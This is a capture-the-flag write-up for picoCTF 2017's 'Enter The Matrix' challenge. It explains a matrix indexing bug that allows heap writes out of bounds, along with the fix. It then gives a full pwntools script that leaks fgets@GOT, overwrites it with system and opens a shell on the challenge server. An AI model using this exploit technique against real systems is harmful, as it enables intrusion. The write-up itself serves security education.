 # Enter The Matrix
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *150 points*
* Description: The Matrix awaits you. Take the [red pill](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/141d36ad9f37c54a44e54e334ca87d0935feb916/2017/picoCTF_2017/problems/binary/Enter_The_Matrix/matrix) and begin your journey. [Source](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/141d36ad9f37c54a44e54e334ca87d0935feb916/2017/picoCTF_2017/problems/binary/Enter_The_Matrix/matrix.c). Jack in at shell2017.picoctf.com:9417.

# Overview

This program allows you to create matricies of various sizes which are stored on the heap. You can then set/get the value at a specific index.

# Solution

Here is the struct for each matrix:

```c
struct matrix {
    int nrows, ncols;
    float *data;
};
```

When each matrix is initialized, memory is allocated like this:

```c
struct matrix *m = malloc(sizeof(struct matrix));
m->nrows = nrows;
m->ncols = ncols;
m->data = calloc(nrows * ncols, sizeof(float));
```

Here we see that the `data` field is allocated to exactly the right size to hold data. The issue is when the program tries to traverse this space. Here is how indexing was done:

```c
m->data[r * m->nrows + c] = v;
```
The fix would be to do it like this:
```c
m->data[r * m->ncols + c] = v;
```

It looks like the programmer was attempting to store rows in memory like this:

Given:
$$
M = \begin{bmatrix}
    a & b \\
	c & d \\
	e & f
\end{bmatrix}
$$

Store it as:

```
[a] <-- *data
[b]
[c]
[d]
[e]
[f] <-- end of data allocation
```

Where each element takes up 4 bytes (as a float).

However, due to the indexing bug, this matrix would be stored as such:

```
[a] <-- *data
[b]
<x>
[c]
[d]
<x> <-- end of data allocation
[e]
[f]
```

So this bug means we can write outside of our assigned heap space. My approach was to overflow into another matrix struct and use it to overwrite a GOT address with `system`.

When we create two matrices on the heap, they are allocated like this:

![mat1](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/141d36ad9f37c54a44e54e334ca87d0935feb916/2017/picoCTF_2017/problems/binary/Enter_The_Matrix/mat1.png)

And due to the indexing bug, we end up writing to the following memory locations:

![mat2](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/141d36ad9f37c54a44e54e334ca87d0935feb916/2017/picoCTF_2017/problems/binary/Enter_The_Matrix/mat2.png)

Notice how if we write to `3,0` we overwrite the `data` pointer of matrix 2. We can set this to point to the GOT table and perform our attack.

The only catch is that the program reads and writes *float values*. So we just have to do a little bit of encoding between hex addresses and floats.

# Script

[**exploitMatrix.py**](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/141d36ad9f37c54a44e54e334ca87d0935feb916/2017/picoCTF_2017/problems/binary/Enter_The_Matrix/exploitMatrix.py)

```python
# By Harrison Green <hgarrereyn>

from pwn import *
import struct

# Connect
sock = remote('shell2017.picoctf.com', 9417)

# address offset in libc from fgets -> system
offset = -151264

# get next command
def n():
	return sock.recvuntil('Enter command:')

n()

sock.send('create 4 2\n')
n()

sock.send('create 1 1\n')
n()

# Sets mat 2 to point to the address of fgets@GOT
sock.send('set 0 3 0 3.991163316186605e-34\n')
n()

# Read fgets address
sock.send('get 1 0 0\n')

# Float -> hex conversion
f = float(n().replace('\n',' ').split(' ')[3])
print('Float val:\t' + repr(f))

fa = struct.unpack('<I', struct.pack('<f', f))[0]
print('Addr:\t' + hex(fa))

# Calculate system address
sa = fa + offset
print('Sys Addr:\t' + hex(sa))

# Hex -> float conversion
s = struct.unpack('>f',bytes(bytearray.fromhex(hex(sa)[2:])))[0]
print('Sys float:\t' + repr(s))

# Overwrite fgets@GOT with system
sock.send('set 1 0 0 ' + repr(s) + ' ; sh\n')
n()

# Call system('sh')
sock.send('sh\n')

# We've got shell
sock.interactive()
```
